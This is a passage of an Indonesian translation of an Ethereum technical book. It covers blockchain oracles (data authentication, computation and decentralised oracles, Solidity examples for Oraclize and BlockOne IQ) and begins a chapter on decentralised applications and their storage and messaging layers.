menyiarkan transaksi lebih lanjut yang memperbarui data secara berkala (mis., informasi harga akhir hari).

Langkah-langkah untuk oracle permintaan-respons dapat diringkas sebagai berikut:

1.  Menerima kueri dari DApp.
2.  Menganalisis kueri.
3.  Memeriksa bahwa pembayaran dan izin akses data disediakan.
4.  Mengambil data yang relevan dari sumber *off-chain* (dan mengenkripsinya jika perlu).
5.  Menandatangani transaksi dengan data yang disertakan.
6.  Menyiarkan transaksi ke jaringan.
7.  Menjadwalkan transaksi lebih lanjut yang diperlukan, seperti notifikasi, dll.

Berbagai skema lain juga dimungkinkan; misalnya, data dapat diminta dari dan dikembalikan langsung oleh EOA, menghilangkan kebutuhan akan kontrak pintar oracle. Demikian pula, permintaan dan respons dapat dibuat ke dan dari sensor perangkat keras yang mendukung Internet of Things. Oleh karena-karena itu, oracle dapat berupa manusia, perangkat lunak, atau perangkat keras.

Pola permintaan-respons yang dijelaskan di sini biasa terlihat dalam arsitektur klien-server. Meskipun ini adalah pola pengiriman pesan yang berguna yang memungkinkan aplikasi untuk melakukan percakapan dua arah, mungkin tidak sesuai dalam kondisi tertentu. Misalnya, obligasi pintar yang memerlukan suku bunga dari oracle mungkin harus meminta data setiap hari di bawah pola permintaan-respons untuk memastikan suku bunga selalu benar. Mengingat bahwa suku bunga jarang berubah, pola publikasi-langganan mungkin lebih sesuai di sini—terutama ketika mempertimbangkan bandwidth terbatas Ethereum.

**Publikasi-langganan** adalah pola di mana penerbit (dalam konteks ini, oracle) tidak mengirim pesan langsung ke penerima, tetapi sebaliknya mengkategorikan pesan yang dipublikasikan ke dalam kelas-kelas yang berbeda. Pelanggan dapat menyatakan minat pada satu atau lebih kelas dan hanya mengambil pesan yang menarik. Di bawah pola seperti itu, oracle mungkin menulis suku bunga ke penyimpanan internalnya sendiri setiap kali berubah. Beberapa DApps yang berlangganan dapat langsung membacanya dari kontrak oracle, sehingga mengurangi dampak pada bandwidth jaringan sambil meminimalkan biaya penyimpanan.

Dalam pola **siaran (*broadcast*) atau *multicast***, oracle akan memposting semua pesan ke sebuah saluran dan kontrak yang berlangganan akan mendengarkan saluran di bawah berbagai mode langganan. Misalnya, oracle mungkin mempublikasikan pesan ke saluran nilai tukar mata uang kripto. Kontrak pintar yang berlangganan dapat meminta konten penuh dari saluran jika memerlukan deret waktu untuk, mis., perhitungan rata-rata bergerak; yang lain mungkin hanya memerlukan suku bunga terbaru untuk perhitungan harga spot. Pola siaran sesuai di mana oracle tidak perlu mengetahui identitas dari kontrak yang berlangganan.

### Autentikasi Data

Jika kita mengasumsikan bahwa sumber data yang ditanyakan oleh DApp bersifat otoritatif dan tepercaya (asumsi yang tidak remeh), pertanyaan yang masih ada adalah: mengingat bahwa oracle dan mekanisme permintaan-respons dapat dioperasikan oleh entitas yang berbeda, bagaimana kita bisa mempercayai mekanisme ini? Ada kemungkinan besar bahwa data dapat diubah dalam perjalanan, jadi sangat penting bahwa metode *off-chain* dapat membuktikan integritas data yang dikembalikan. Dua pendekatan umum untuk autentikasi data adalah **bukti keaslian (*authenticity proofs*)** dan **lingkungan eksekusi tepercaya (*trusted execution environments* - TEEs)**.

**Bukti keaslian** adalah jaminan kriptografis bahwa data tidak telah diubah. Berdasarkan berbagai teknik atestasi (mis., bukti yang ditandatangani secara digital), mereka secara efektif mengalihkan kepercayaan dari pembawa data ke pemberi atestasi (yaitu, penyedia atestasi). Dengan memverifikasi bukti keaslian secara *on-chain*, kontrak pintar dapat memverifikasi integritas data sebelum beroperasi padanya. Oraclize adalah contoh layanan oracle yang memanfaatkan berbagai bukti keaslian. Salah satu bukti semacam itu yang saat ini tersedia untuk kueri data dari jaringan utama Ethereum adalah bukti **TLSNotary**. Bukti TLSNotary memungkinkan klien untuk memberikan bukti kepada pihak ketiga bahwa lalu lintas web HTTPS terjadi antara klien dan server. Meskipun HTTPS itu sendiri aman, ia tidak mendukung penandatanganan data. Akibatnya, bukti TLSNotary mengandalkan tanda tangan TLSNotary (melalui PageSigner). Bukti TLSNotary memanfaatkan protokol Transport Layer Security (TLS), memungkinkan kunci master TLS, yang menandatangani data setelah diakses, untuk dibagi di antara tiga pihak: server (oracle), auditee (Oraclize), dan auditor. Oraclize menggunakan instansi mesin virtual Amazon Web Services (AWS) sebagai auditor, yang dapat diverifikasi sebagai tidak telah dimodifikasi sejak instansiasi. Instansi AWS ini menyimpan rahasia TLSNotary, memungkinkannya untuk memberikan bukti kejujuran. Meskipun menawarkan jaminan yang lebih tinggi terhadap pengubahan data daripada mekanisme permintaan-respons murni, pendekatan ini memang memerlukan asumsi bahwa Amazon sendiri tidak akan mengubah instansi VM.

**Town Crier** adalah sistem oracle umpan data terautentikasi yang didasarkan pada pendekatan **TEE**; metode semacam itu memanfaatkan *enclave* aman berbasis perangkat keras untuk memastikan integritas data. Town Crier menggunakan **Software Guard eXtensions (SGX)** dari Intel untuk memastikan bahwa respons dari kueri HTTPS dapat diverifikasi sebagai asli. SGX memberikan jaminan integritas, memastikan bahwa aplikasi yang berjalan di dalam *enclave* dilindungi oleh CPU dari pengubahan oleh proses lain. Ia juga memberikan kerahasiaan, memastikan bahwa keadaan aplikasi bersifat buram bagi proses lain saat berjalan di dalam *enclave*. Dan akhirnya, SGX memungkinkan atestasi, dengan menghasilkan bukti yang ditandatangani secara digital bahwa sebuah aplikasi—diidentifikasi secara aman dengan hash dari bangunannya—benar-benar berjalan di dalam *enclave*. Dengan memverifikasi tanda tangan digital ini, dimungkinkan bagi aplikasi terdesentralisasi untuk membuktikan bahwa instansi Town Crier berjalan dengan aman di dalam *enclave* SGX. Ini, pada gilirannya, membuktikan bahwa instansi tidak telah diubah dan bahwa data yang dipancarkan oleh Town Crier oleh karena itu asli. Properti kerahasiaan juga memungkinkan Town Crier untuk menangani data pribadi dengan mengizinkan kueri data dienkripsi menggunakan kunci publik dari instansi Town Crier. Mengoperasikan mekanisme kueri/respons oracle di dalam *enclave* seperti SGX secara efektif memungkinkan kita untuk menganggapnya berjalan dengan aman di perangkat keras pihak ketiga yang tepercaya, memastikan bahwa data yang diminta dikembalikan tanpa diubah (dengan asumsi bahwa kita mempercayai Intel/SGX).

### Oracle Komputasi

Sejauh ini, kita hanya membahas oracle dalam konteks meminta dan mengirimkan data. Namun, oracle juga dapat digunakan untuk melakukan **komputasi sewenang-wenang**, sebuah fungsi yang dapat sangat berguna mengingat batas gas blok inheren Ethereum dan biaya komputasi yang relatif mahal. Daripada hanya menyampaikan hasil kueri, oracle komputasi dapat digunakan untuk melakukan komputasi pada serangkaian input dan mengembalikan hasil yang dihitung yang mungkin tidak mungkin dihitung secara *on-chain*. Misalnya, seseorang mungkin menggunakan oracle komputasi untuk melakukan perhitungan regresi yang intensif secara komputasi untuk memperkirakan imbal hasil dari kontrak obligasi.

Jika Anda bersedia mempercayai layanan terpusat tetapi dapat diaudit, Anda dapat kembali ke **Oraclize**. Mereka menyediakan layanan yang memungkinkan aplikasi terdesentralisasi untuk meminta output dari komputasi yang dilakukan di mesin virtual AWS yang di-*sandbox*. Instansi AWS membuat kontainer yang dapat dieksekusi dari Dockerfile yang dikonfigurasi pengguna yang dikemas dalam arsip yang diunggah ke Inter-Planetary File System (IPFS; lihat “Penyimpanan Data” di halaman 270). Atas permintaan, Oraclize mengambil arsip ini menggunakan hash-nya dan kemudian menginisialisasi dan mengeksekusi kontainer Docker di AWS, memberikan argumen apa pun yang diberikan ke aplikasi sebagai variabel lingkungan. Aplikasi yang dikontainerisasi melakukan perhitungan, tunduk pada batasan waktu, dan menulis hasilnya ke output standar, di mana ia dapat diambil oleh Oraclize dan dikembalikan ke aplikasi terdesentralisasi. Oraclize saat ini menawarkan layanan ini pada instansi AWS t2.micro yang dapat diaudit, jadi jika komputasi memiliki nilai yang tidak remeh, dimungkinkan untuk memeriksa bahwa kontainer Docker yang benar dieksekusi. Namun demikian, ini bukan solusi yang benar-benar terdesentralisasi.

Konsep **cryptlet** sebagai standar untuk kebenaran oracle yang dapat diverifikasi telah diformalkan sebagai bagian dari Kerangka Kerja ESC yang lebih luas dari Microsoft. Cryptlet dieksekusi di dalam kapsul terenkripsi yang mengabstraksi infrastruktur, seperti I/O, dan memiliki CryptoDelegate terpasang sehingga pesan masuk dan keluar ditandatangani, divalidasi, dan dibuktikan secara otomatis. Cryptlet mendukung transaksi terdistribusi sehingga logika kontrak dapat mengambil transaksi sistem eksternal, multi-langkah, multi-blockchain yang kompleks dengan cara ACID. Ini memungkinkan pengembang untuk membuat resolusi kebenaran yang portabel, terisolasi, dan pribadi untuk digunakan dalam kontrak pintar. Cryptlet mengikuti format yang ditunjukkan di sini:

```csharp
public class SampleContractCryptlet : Cryptlet
{
  public SampleContractCryptlet(Guid id, Guid bindingId, string name, string address, IContainerServices hostContainer, bool contract)
    : base(id, bindingId, name, address, hostContainer, contract)
  {
    MessageApi = new CryptletMessageApi(GetType().FullName, new SampleContractConstructor())
  }
}
```

Untuk solusi yang lebih terdesentralisasi, kita dapat beralih ke **TrueBit**, yang menawarkan solusi untuk komputasi *off-chain* yang dapat diskalakan dan diverifikasi. Mereka menggunakan sistem pemecah (*solvers*) dan verifikator (*verifiers*) yang diberi insentif untuk melakukan komputasi dan verifikasi dari komputasi tersebut. Jika sebuah solusi ditantang, proses verifikasi berulang pada subset dari komputasi dilakukan secara *on-chain*—semacam **permainan verifikasi**. Permainan berlanjut melalui serangkaian putaran, masing-masing secara rekursif memeriksa subset komputasi yang semakin kecil. Permainan akhirnya mencapai putaran terakhir, di mana tantangan cukup sepele sehingga para juri—penambang Ethereum—dapat membuat keputusan akhir tentang apakah tantangan terpenuhi, secara *on-chain*. Akibatnya, TrueBit adalah implementasi dari pasar komputasi, memungkinkan aplikasi terdesentralisasi untuk membayar komputasi yang dapat diverifikasi untuk dilakukan di luar jaringan, tetapi mengandalkan Ethereum untuk menegakkan aturan permainan verifikasi. Secara teori, ini memungkinkan kontrak pintar nirkepercayaan untuk secara aman melakukan tugas komputasi apa pun.

Berbagai aplikasi ada untuk sistem seperti TrueBit, mulai dari pembelajaran mesin hingga verifikasi *proof of work*. Contoh yang terakhir adalah jembatan Doge–Ethereum, yang menggunakan TrueBit untuk memverifikasi *proof of work* Dogecoin (Scrypt), yang merupakan fungsi yang sulit secara memori dan intensif secara komputasi yang tidak dapat dihitung dalam batas gas blok Ethereum. Dengan melakukan verifikasi ini di TrueBit, dimungkinkan untuk secara aman memverifikasi transaksi Dogecoin di dalam kontrak pintar di *testnet* Rinkeby Ethereum.

### Oracle Terdesentralisasi

Meskipun oracle data atau komputasi terpusat cukup untuk banyak aplikasi, mereka mewakili **titik kegagalan tunggal** di jaringan Ethereum. Sejumlah skema telah diusulkan seputar gagasan oracle terdesentralisasi sebagai sarana untuk memastikan ketersediaan data dan pembuatan jaringan penyedia data individu dengan sistem agregasi data *on-chain*.

**ChainLink** telah mengusulkan jaringan oracle terdesentralisasi yang terdiri dari tiga kontrak pintar utama—kontrak reputasi, kontrak pencocokan pesanan, dan kontrak agregasi—dan registri penyedia data *off-chain*. Kontrak reputasi digunakan untuk melacak kinerja penyedia data. Skor di kontrak reputasi digunakan untuk mengisi registri *off-chain*. Kontrak pencocokan pesanan memilih tawaran dari oracle menggunakan kontrak reputasi. Kemudian menyelesaikan perjanjian tingkat layanan, yang mencakup parameter kueri dan jumlah oracle yang diperlukan. Ini berarti bahwa pembeli tidak perlu bertransaksi langsung dengan oracle individu. Kontrak agregasi mengumpulkan respons (dikirim menggunakan skema *commit–reveal*) dari beberapa oracle, menghitung hasil kolektif akhir dari kueri, dan akhirnya memberikan hasilnya kembali ke kontrak reputasi.

Salah satu tantangan utama dengan pendekatan terdesentralisasi semacam itu adalah perumusan fungsi agregasi. ChainLink mengusulkan penghitungan respons berbobot, memungkinkan skor validitas dilaporkan untuk setiap respons oracle. Mendeteksi skor yang tidak valid di sini tidak remeh, karena bergantung pada premis bahwa titik data yang menyimpang, yang diukur dengan deviasi dari respons yang diberikan oleh rekan-rekan, tidak benar. Menghitung skor validitas berdasarkan lokasi respons oracle di antara distribusi respons berisiko menghukum jawaban yang benar daripada jawaban rata-rata. Oleh karena itu, ChainLink menawarkan seperangkat standar kontrak agregasi, tetapi juga memungkinkan kontrak agregasi yang disesuaikan untuk ditentukan.

Ide terkait adalah protokol **SchellingCoin**. Di sini, beberapa peserta melaporkan nilai dan median diambil sebagai jawaban yang “benar”. Pelapor diharuskan memberikan deposit yang didistribusikan kembali untuk mendukung nilai yang lebih dekat ke median, sehingga memberi insentif untuk melaporkan nilai yang mirip dengan yang lain. Nilai umum, juga dikenal sebagai **titik Schelling (*Schelling point*)**, yang mungkin dianggap responden sebagai target alami dan jelas untuk berkoordinasi diharapkan mendekati nilai sebenarnya.

Jason Teutsch dari TrueBit baru-baru ini mengusulkan desain baru untuk oracle ketersediaan data *off-chain* yang terdesentralisasi. Desain ini memanfaatkan blockchain *proof-of-work* khusus yang dapat melaporkan dengan benar apakah data yang terdaftar tersedia atau tidak selama epos tertentu. Penambang mencoba mengunduh, menyimpan, dan menyebarkan semua data yang saat ini terdaftar, sehingga menjamin data tersedia secara lokal. Meskipun sistem semacam itu mahal dalam artian bahwa setiap *node* penambangan menyimpan dan menyebarkan semua data yang terdaftar, sistem memungkinkan penyimpanan untuk digunakan kembali dengan melepaskan data setelah periode pendaftaran berakhir.

### Antarmuka Klien Oracle di Solidity

Contoh 11-1 adalah contoh Solidity yang menunjukkan bagaimana Oraclize dapat digunakan untuk secara terus-menerus melakukan *polling* harga ETH/USD dari sebuah API dan menyimpan hasilnya dengan cara yang dapat digunakan.

**Contoh 11-1. Menggunakan Oraclize untuk memperbarui nilai tukar ETH/USD dari sumber eksternal**

```solidity
/*
Ticker harga ETH/USD yang memanfaatkan API CryptoCompare
Kontrak ini menyimpan harga ETH/USD yang diperbarui di penyimpanan,
yang diperbarui setiap 10 menit.
*/
pragma solidity ^0.4.1;

import "github.com/oraclize/ethereum-api/oraclizeAPI.sol";

/*
Metode yang diawali "oraclize_" menunjukkan pewarisan dari "usingOraclize"
*/
contract EthUsdPriceTicker is usingOraclize {

  uint public ethUsd;

  event newOraclizeQuery(string description);
  event newCallbackResult(string result);

  constructor() public payable {
    // menandakan pembuatan bukti TLSN dan penyimpanan di IPFS
    oraclize_setProof(proofType_TLSNotary | proofStorage_IPFS);
    // meminta kueri
    queryTicker();
  }

  function __callback(bytes32 _queryId, string memory _result, bytes memory _proof) public {
    require(msg.sender == oraclize_cbAddress());
    emit newCallbackResult(_result);
    /*
    * Mengurai string hasil menjadi integer tak bertanda untuk penggunaan on-chain.
    * Menggunakan pembantu "parseInt" yang diwarisi dari "usingOraclize", memungkinkan
    * string hasil seperti "123.45" diubah menjadi uint 12345.
    */
    ethUsd = parseInt(_result, 2);
    // dipanggil dari callback karena kita melakukan polling harga
    queryTicker();
  }

  function queryTicker() public payable {
    if (oraclize_getPrice("URL") > address(this).balance) {
      emit newOraclizeQuery("Kueri Oraclize TIDAK dikirim, harap tambahkan ETH untuk menutupi biaya kueri");
    } else {
      emit newOraclizeQuery("Kueri Oraclize dikirim, menunggu jawaban...");
      // parameter kueri adalah (penundaan dalam detik, jenis sumber data,
      // argumen sumber data)
      // menentukan JSONPath, untuk mengambil bagian spesifik dari hasil API JSON
      oraclize_query(60 * 10, "URL", "json(https://min-api.cryptocompare.com/data/price?fsym=ETH&tsyms=USD,EUR,GBP).USD");
    }
  }
}
```

Untuk berintegrasi dengan Oraclize, kontrak `EthUsdPriceTicker` harus menjadi anak dari `usingOraclize`; kontrak `usingOraclize` didefinisikan dalam file `oraclizeAPI`. Permintaan data dibuat menggunakan fungsi `oraclize_query`, yang diwarisi dari kontrak `usingOraclize`. Ini adalah fungsi yang di-*overload* yang mengharapkan setidaknya dua argumen:

  * Sumber data yang didukung untuk digunakan, seperti `URL`, `WolframAlpha`, `IPFS`, atau `computation`.
  * Argumen untuk sumber data yang diberikan, yang mungkin termasuk penggunaan pembantu penguraian JSON atau XML.

Kueri harga dilakukan di fungsi `queryTicker`. Untuk melakukan kueri, Oraclize memerlukan pembayaran biaya kecil dalam ether, yang mencakup biaya gas untuk memproses hasil dan mengirimkannya ke fungsi `__callback` dan biaya tambahan yang menyertainya untuk layanan tersebut. Jumlah ini bergantung pada sumber data dan, jika ditentukan, jenis bukti keaslian yang diperlukan. Setelah data diambil, fungsi `__callback` dipanggil oleh akun yang dikendalikan Oraclize yang diizinkan untuk melakukan *callback*; ia memberikan nilai respons dan argumen `queryId` yang unik, yang, misalnya, dapat digunakan untuk menangani dan melacak beberapa *callback* yang tertunda dari Oraclize.

Penyedia data keuangan Thomson Reuters juga menyediakan layanan oracle untuk Ethereum, yang disebut BlockOne IQ, memungkinkan data pasar dan referensi untuk diminta oleh kontrak pintar yang berjalan di jaringan pribadi atau berizin. Contoh 11-2 menunjukkan antarmuka untuk oracle, dan kontrak klien yang akan membuat permintaan.

**Contoh 11-2. Kontrak yang memanggil layanan BlockOne IQ untuk data pasar**

```solidity
pragma solidity ^0.4.11;

contract Oracle {
  uint256 public divisor;
  function initRequest(uint256 queryType, function(uint256) external onSuccess, function(uint256) external onFailure) public returns (uint256 id);
  function addArgumentToRequestUint(uint256 id, bytes32 name, uint256 arg) public;
  function addArgumentToRequestString(uint256 id, bytes32 name, bytes32 arg) public;
  function executeRequest(uint256 id) public;
  function getResponseUint(uint256 id, bytes32 name) public view returns(uint256);
  function getResponseString(uint256 id, bytes32 name) public view returns(bytes32);
  function getResponseError(uint256 id) public view returns(bytes32);
  function deleteResponse(uint256 id) public;
}

contract OracleB1IQClient {
  Oracle private oracle;
  event LogError(bytes32 description);

  constructor(address addr) public payable {
    oracle = Oracle(addr);
    getIntraday("IBM", now);
  }

  function getIntraday(bytes32 ric, uint256 timestamp) public {
    uint256 id = oracle.initRequest(0, this.handleSuccess, this.handleFailure);
    oracle.addArgumentToRequestString(id, "symbol", ric);
    oracle.addArgumentToRequestUint(id, "timestamp", timestamp);
    oracle.executeRequest(id);
  }

  function handleSuccess(uint256 id) public {
    require(msg.sender == address(oracle));
    bytes32 ric = oracle.getResponseString(id, "symbol");
    uint256 open = oracle.getResponseUint(id, "open");
    uint256 high = oracle.getResponseUint(id, "high");
    uint256 low = oracle.getResponseUint(id, "low");
    uint256 close = oracle.getResponseUint(id, "close");
    uint256 bid = oracle.getResponseUint(id, "bid");
    uint256 ask = oracle.getResponseUint(id, "ask");
    uint256 timestamp = oracle.getResponseUint(id, "timestamp");
    oracle.deleteResponse(id);
    // Lakukan sesuatu dengan data harga
  }

  function handleFailure(uint256 id) public {
    require(msg.sender == address(oracle));
    bytes32 error = oracle.getResponseError(id);
    oracle.deleteResponse(id);
    emit LogError(error);
  }
}
```

Permintaan data dimulai menggunakan fungsi `initRequest`, yang memungkinkan jenis kueri (dalam contoh ini, permintaan untuk harga intraday) untuk ditentukan, selain dua fungsi *callback*. Ini mengembalikan pengenal `uint256` yang kemudian dapat digunakan untuk memberikan argumen tambahan. Fungsi `addArgumentToRequestString` digunakan untuk menentukan Reuters Instrument Code (RIC), di sini untuk saham IBM, dan `addArgumentToRequestUint` memungkinkan stempel waktu untuk ditentukan. Sekarang, dengan memberikan alias untuk `block.timestamp` akan mengambil harga saat ini untuk IBM. Permintaan kemudian dieksekusi oleh fungsi `executeRequest`. Setelah permintaan diproses, kontrak oracle akan memanggil fungsi *callback* `onSuccess` dengan pengenal kueri, memungkinkan data yang dihasilkan untuk diambil; jika terjadi kegagalan pengambilan, *callback* `onFailure` akan mengembalikan kode kesalahan sebagai gantinya. Bidang yang tersedia yang dapat diambil saat berhasil termasuk harga buka, tinggi, rendah, tutup (OHLC), dan harga jual/beli.

### Kesimpulan

Seperti yang Anda lihat, oracle menyediakan layanan penting untuk kontrak pintar: mereka membawa fakta eksternal ke eksekusi kontrak. Dengan itu, tentu saja, oracle juga menimbulkan risiko yang signifikan—jika mereka adalah sumber tepercaya dan dapat dikompromikan, mereka dapat mengakibatkan eksekusi yang dikompromikan dari kontrak pintar yang mereka suplai.

Secara umum, saat mempertimbangkan penggunaan oracle, berhati-hatilah dengan model kepercayaan. Jika Anda berasumsi oracle dapat dipercaya, Anda mungkin merusak keamanan kontrak pintar Anda dengan mengeksposnya ke input yang berpotensi salah. Meskipun demikian, oracle dapat sangat berguna jika asumsi keamanan dipertimbangkan dengan cermat.

Oracle terdesentralisasi dapat menyelesaikan beberapa masalah ini dan menawarkan data eksternal nirkepercayaan kepada kontrak pintar Ethereum. Pilih dengan hati-hati dan Anda dapat mulai menjelajahi jembatan antara Ethereum dan "dunia nyata" yang ditawarkan oleh oracle.

---

# BAB 12
## Aplikasi Terdesentralisasi (DApps)

Dalam bab ini kita akan menjelajahi dunia aplikasi terdesentralisasi, atau **DApps**.

Sejak awal Ethereum, visi para pendirinya jauh lebih luas daripada “kontrak pintar”: tidak kurang dari menciptakan kembali web dan menciptakan dunia baru DApps, yang tepat disebut **web3**. Kontrak pintar adalah cara untuk mendesentralisasi logika pengendali dan fungsi pembayaran dari aplikasi. DApps Web3 adalah tentang mendesentralisasi semua aspek lain dari sebuah aplikasi: penyimpanan, pengiriman pesan, penamaan, dll. (lihat Gambar 12-1).

<p align="center">
  
</p>

> Meskipun “aplikasi terdesentralisasi” adalah visi masa depan yang berani, istilah “DApp” sering diterapkan pada kontrak pintar apa pun yang memiliki *frontend* web. Beberapa dari yang disebut DApp ini adalah aplikasi yang sangat terpusat (*Centralized Applications* - CApps?). Waspadalah terhadap DApp palsu!

Dalam bab ini kita akan mengembangkan dan menerapkan contoh DApp: sebuah platform lelang. Anda dapat menemukan kode sumbernya di repositori buku di bawah `code/auction_dapp`. Kita akan melihat setiap aspek dari aplikasi lelang dan melihat bagaimana kita dapat mendesentralisasi aplikasi sebanyak mungkin. Namun, pertama-tama, mari kita lihat lebih dekat karakteristik dan keunggulan DApps.

### Apa Itu DApp?

DApp adalah aplikasi yang sebagian besar atau seluruhnya terdesentralisasi.

Pertimbangkan semua aspek yang mungkin dari sebuah aplikasi yang dapat didesentralisasi:
* Perangkat lunak backend (logika aplikasi)
* Perangkat lunak frontend
* Penyimpanan data
* Komunikasi pesan
* Resolusi nama

Masing-masing dari ini bisa agak terpusat atau agak terdesentralisasi. Misalnya, *frontend* dapat dikembangkan sebagai aplikasi web yang berjalan di server terpusat, atau sebagai aplikasi seluler yang berjalan di perangkat Anda. *Backend* dan penyimpanan bisa berada di server pribadi dan basis data berpemilik, atau Anda bisa menggunakan kontrak pintar dan penyimpanan P2P.

Ada banyak keuntungan membuat DApp yang tidak dapat diberikan oleh arsitektur terpusat biasa:

* **Ketahanan (*Resiliency*)**
    Karena logika bisnis dikendalikan oleh kontrak pintar, *backend* DApp akan sepenuhnya terdistribusi dan dikelola di platform blockchain. Berbeda dengan aplikasi yang diterapkan di server terpusat, DApp tidak akan memiliki waktu henti (*downtime*) dan akan terus tersedia selama platform masih beroperasi.
* **Transparansi**
    Sifat *on-chain* dari DApp memungkinkan semua orang untuk memeriksa kode dan lebih yakin tentang fungsinya. Setiap interaksi dengan DApp akan disimpan selamanya di dalam blockchain.
* **Ketahanan terhadap sensor (*Censorship resistance*)**
    Selama pengguna memiliki akses ke *node* Ethereum (menjalankannya jika perlu), pengguna akan selalu dapat berinteraksi dengan DApp tanpa campur tangan dari kontrol terpusat mana pun. Tidak ada penyedia layanan, atau bahkan pemilik kontrak pintar, yang dapat mengubah kode setelah diterapkan di jaringan.

Dalam ekosistem Ethereum seperti saat ini, hanya ada sedikit aplikasi yang benar-benar terdesentralisasi—sebagian besar masih bergantung pada layanan dan server terpusat untuk sebagian operasinya. Di masa depan, kami berharap akan memungkinkan setiap bagian dari DApp mana pun untuk dioperasikan dengan cara yang sepenuhnya terdesentralisasi.

### Backend (Kontrak Pintar)

Dalam sebuah DApp, kontrak pintar digunakan untuk menyimpan logika bisnis (kode program) dan keadaan terkait dari aplikasi Anda. Anda bisa menganggap kontrak pintar menggantikan komponen sisi server (alias “backend”) dalam aplikasi biasa. Tentu saja, ini adalah penyederhanaan yang berlebihan. Salah satu perbedaan utamanya adalah bahwa setiap komputasi yang dieksekusi dalam kontrak pintar sangat mahal dan karenanya harus dijaga seminimal mungkin. Oleh karena itu, penting untuk mengidentifikasi aspek mana dari aplikasi yang memerlukan platform eksekusi yang tepercaya dan terdesentralisasi.

Kontrak pintar Ethereum memungkinkan Anda membangun arsitektur di mana jaringan kontrak pintar saling memanggil dan meneruskan data, membaca dan menulis variabel keadaan mereka sendiri saat berjalan, dengan kompleksitasnya hanya dibatasi oleh batas gas blok. Setelah Anda menerapkan kontrak pintar Anda, logika bisnis Anda bisa jadi akan digunakan oleh banyak pengembang lain di masa depan.

Salah satu pertimbangan utama dari desain arsitektur kontrak pintar adalah ketidakmampuan untuk mengubah kode kontrak pintar setelah diterapkan. Kontrak tersebut dapat dihapus jika diprogram dengan *opcode* `SELFDESTRUCT` yang dapat diakses, tetapi selain penghapusan total, kodenya tidak dapat diubah dengan cara apa pun.

Pertimbangan utama kedua dari desain arsitektur kontrak pintar adalah ukuran DApp. Kontrak pintar monolitik yang sangat besar mungkin memerlukan banyak gas untuk diterapkan dan digunakan. Oleh karena itu, beberapa aplikasi mungkin memilih untuk memiliki komputasi *off-chain* dan sumber data eksternal. Namun, perlu diingat bahwa memiliki logika bisnis inti DApp yang bergantung pada data eksternal (misalnya, dari server terpusat) berarti pengguna Anda harus mempercayai sumber daya eksternal ini.

### Frontend (Antarmuka Pengguna Web)

Berbeda dengan logika bisnis DApp, yang mengharuskan pengembang untuk memahami EVM dan bahasa baru seperti Solidity, antarmuka sisi klien dari sebuah DApp dapat menggunakan teknologi web standar (HTML, CSS, JavaScript, dll.). Hal ini memungkinkan pengembang web tradisional untuk menggunakan alat, pustaka, dan kerangka kerja yang sudah dikenal. Interaksi dengan Ethereum, seperti menandatangani pesan, mengirim transaksi, dan mengelola kunci, sering dilakukan melalui peramban web, melalui ekstensi seperti MetaMask (lihat Bab 2).

Meskipun dimungkinkan untuk membuat DApp seluler juga, saat ini hanya ada sedikit sumber daya untuk membantu membuat *frontend* DApp seluler, terutama karena kurangnya klien seluler yang dapat berfungsi sebagai klien ringan dengan fungsionalitas manajemen kunci.

*Frontend* biasanya terhubung ke Ethereum melalui pustaka JavaScript `web3.js`, yang dibundel dengan sumber daya *frontend* dan disajikan ke peramban oleh server web.

### Penyimpanan Data

Karena biaya gas yang tinggi dan batas gas blok yang saat ini rendah, kontrak pintar tidak cocok untuk menyimpan atau memproses data dalam jumlah besar. Karenanya, sebagian besar DApps menggunakan layanan penyimpanan data *off-chain*, yang berarti mereka menyimpan data berukuran besar di luar rantai Ethereum, di platform penyimpanan data. Platform penyimpanan data tersebut bisa terpusat (misalnya, basis data *cloud* biasa), atau data bisa terdesentralisasi, disimpan di platform P2P seperti IPFS, atau platform Swarm milik Ethereum sendiri.

Penyimpanan P2P terdesentralisasi ideal untuk menyimpan dan mendistribusikan aset statis besar seperti gambar, video, dan sumber daya antarmuka web *frontend* aplikasi (HTML, CSS, JavaScript, dll.). Kita akan melihat beberapa opsinya selanjutnya.

#### IPFS

**Inter-Planetary File System (IPFS)** adalah sistem penyimpanan beralamat-konten (*content-addressable*) terdesentralisasi yang mendistribusikan objek yang disimpan di antara rekan-rekan dalam jaringan P2P. “Beralamat-konten” berarti bahwa setiap bagian konten (file) di-hash dan hash tersebut digunakan untuk mengidentifikasi file itu. Anda kemudian dapat mengambil file apa pun dari *node* IPFS mana pun dengan memintanya berdasarkan hash-nya.

IPFS bertujuan untuk menggantikan HTTP sebagai protokol pilihan untuk pengiriman aplikasi web. Alih-alih menyimpan aplikasi web di satu server, file-filenya disimpan di IPFS dan dapat diambil dari *node* IPFS mana pun.

Informasi lebih lanjut tentang IPFS dapat ditemukan di [https://ipfs.io](https://ipfs.io).

#### Swarm

**Swarm** adalah sistem penyimpanan P2P beralamat-konten lainnya, mirip dengan IPFS. Swarm diciptakan oleh Ethereum Foundation, sebagai bagian dari rangkaian alat Go-Ethereum. Seperti IPFS, Swarm memungkinkan Anda menyimpan file yang disebarluaskan dan direplikasi oleh *node* Swarm. Anda dapat mengakses file Swarm apa pun dengan merujuknya berdasarkan hash. Swarm memungkinkan Anda mengakses situs web dari sistem P2P terdesentralisasi, alih-alih server web terpusat.

Halaman beranda untuk Swarm itu sendiri disimpan di Swarm dan dapat diakses di *node* Swarm Anda atau gerbang: [https://swarm-gateways.net/bzz:/theswarm.eth/](https://swarm-gateways.net/bzz:/theswarm.eth/).

### Protokol Komunikasi Pesan Terdesentralisasi

Komponen utama lain dari aplikasi apa pun adalah komunikasi antar-proses. Itu berarti kemampuan untuk bertukar pesan antar aplikasi, antara instansi aplikasi yang berbeda, atau antara pengguna aplikasi. Secara tradisional, ini dicapai dengan mengandalkan server terpusat. Namun, ada berbagai alternatif terdesentralisasi untuk protokol berbasis server, yang menawarkan pengiriman pesan melalui jaringan P2P.

Protokol pengiriman pesan P2P yang paling menonjol untuk DApps adalah **Whisper**, yang merupakan bagian dari rangkaian alat Go-Ethereum dari Ethereum Foundation.

